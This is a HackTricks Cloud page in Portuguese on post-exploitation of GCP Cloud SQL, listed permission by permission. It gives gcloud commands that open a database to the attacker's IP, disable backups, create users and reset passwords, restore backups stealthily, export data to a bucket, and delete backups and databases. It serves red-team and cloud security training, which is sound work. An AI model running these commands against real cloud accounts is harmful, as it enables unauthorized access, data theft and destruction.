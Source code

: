 # GCP - Cloud SQL Pós Exploração

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Cloud SQL

Para mais informações sobre Cloud SQL, confira:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Para se conectar aos bancos de dados, você **só precisa de acesso à porta do banco de dados** e saber o **nome de usuário** e **senha**, não há requisitos de IAM. Portanto, uma maneira fácil de obter acesso, supondo que o banco de dados tenha um endereço IP público, é atualizar as redes permitidas e **permitir que seu próprio endereço IP acesse-o**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
É também possível usar **`--no-backup`** para **interromper os backups** do banco de dados.

Como esses são os requisitos, não tenho certeza do que são as permissões **`cloudsql.instances.connect`** e **`cloudsql.instances.login`**. Se você souber, envie um PR!

### `cloudsql.users.list`

Obtenha uma **lista de todos os usuários** do banco de dados:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Esta permissão permite **criar um novo usuário dentro** do banco de dados:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Esta permissão permite **atualizar o usuário dentro** do banco de dados. Por exemplo, você poderia mudar sua senha:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Backups podem conter **informações sensíveis antigas**, então é interessante verificá-las.\
**Restaurar um backup** dentro de um banco de dados:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Para fazê-lo de uma maneira mais discreta, é recomendável criar uma nova instância SQL e recuperar os dados lá em vez de nas bases de dados atualmente em execução.

### `cloudsql.backupRuns.delete`

Esta permissão permite excluir backups:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Exporte um banco de dados** para um Bucket do Cloud Storage para que você possa acessá-lo a partir daí:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importar um banco de dados** (sobrescrever) de um Bucket do Cloud Storage:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Excluir um banco de dados da instância do db:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporte o HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
